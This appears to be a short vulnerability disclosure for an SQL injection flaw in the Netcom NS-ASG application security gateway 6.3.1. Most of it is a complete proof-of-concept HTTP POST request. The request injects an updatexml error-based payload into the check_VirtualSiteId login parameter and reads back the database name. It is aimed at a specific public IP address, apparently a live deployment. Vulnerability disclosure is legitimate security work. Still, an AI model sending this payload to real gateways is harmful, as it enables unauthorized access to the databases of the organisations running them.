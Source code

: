 Netcom NS-ASG application security gateway has SQL injection vulnerability

version:6.3.1

![image](https://github.com/fixitc/cve/assets/63436381/c103210a-2257-401d-aa74-2dadb0cc9aa8)


1. Get the current database name directly through the following POC

```
POST /vpnweb/index.php?para=index HTTP/1.1
Host: 218.75.78.54:4443
Cookie: PHPSESSID=ac6843ae1512b5fcf111b5af0bc4f90e; reachstone_uid=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 207
Origin: https://218.75.78.54:4443
Referer: https://218.75.78.54:4443/vpnweb/index.php?para=index
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 1.1.1.1
Te: trailers
Connection: close

check_username=123&check_username1=123&check_passwd=123&action=login_check&check_VirtualSiteId=1/**/and/**/updatexml(1,concat(0x7e,(database())),3)#&imgcode=undefined&selvalue=2&BackgroundName=background.gif
```
![image](https://github.com/fixitc/cve/assets/63436381/fe11ad86-80e5-4d72-a004-7156d7139120)
The database name is：iscserver
